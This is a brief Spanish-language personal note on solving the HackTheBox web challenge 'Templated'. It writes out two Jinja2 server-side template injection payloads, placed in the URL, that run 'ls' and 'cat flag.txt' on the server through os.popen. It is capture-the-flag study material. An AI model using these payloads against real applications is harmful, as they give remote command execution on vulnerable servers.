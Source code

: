 # Notas sobre desafíos en HackTheBox
  
## Challenges - Web  
https://app.hackthebox.eu/challenges/  

### Templated  

- Template jinja2 utilizado para explotar vulnerabilidad y ver flag  
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection  

Se usó en la url:  
`{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}`  
y luego   
`{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}`  


